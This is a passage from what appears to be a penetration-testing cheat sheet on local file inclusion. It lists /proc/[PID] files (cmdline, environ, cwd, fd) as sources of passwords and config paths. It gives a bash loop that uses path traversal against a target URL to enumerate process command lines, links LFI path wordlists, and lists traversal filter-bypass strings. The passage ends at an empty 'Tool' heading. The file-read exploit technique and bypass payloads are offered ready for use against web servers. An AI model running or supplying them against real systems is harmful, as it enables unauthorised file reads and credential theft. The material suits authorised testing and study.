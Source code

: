 ### Target process PID

|Directory|Description|
|:--------|:----------|
|/proc/[PID]/cmdline|Lists everything that was used to invoke the process. This sometimes contains useful paths to configuration files as well as usernames and passwords.|
|/proc/[PID]/environ|Lists all the environment variables that were set when the process was invoked.  This also sometimes contains useful paths to configuration files as well as usernames and passwords.|
|/proc/[PID]/cwd|Points to the current working directory of the process.  This may be useful if you don’t know the absolute path to a configuration file.|
|/proc/[PID]/fd/[#]|Provides access to the file descriptors being used.  In some cases this can be used to read files that are opened by a process.|

#### PID fuffing

```bash
processName="KEY_WORD"
targetUrl="http://IP_ADDRESS/"

for i in $(seq 1 9999); do
    curl -s "$targetUrl?page=../../../../proc/$i/cmdline" | strings | grep $processName
done
```

#### File path wordlists

Linux target:

- <https://raw.githubusercontent.com/SecuProject/Pentest-Cheat-Sheet/master/Discovery/SystemPath/Linux>
- <https://raw.githubusercontent.com/carlospolop/Auto_Wordlists/main/wordlists/file_inclusion_linux.txt>

Windows target:

- <https://raw.githubusercontent.com/SecuProject/Pentest-Cheat-Sheet/master/Discovery/SystemPath/Windows>
- <https://raw.githubusercontent.com/carlospolop/Auto_Wordlists/main/wordlists/file_inclusion_windows.txt>

Others wordlists:

- <https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI>

## Filter bypass

```raw
....//
..././
....\/
....////
%2e%2e%2f
```

## Tool

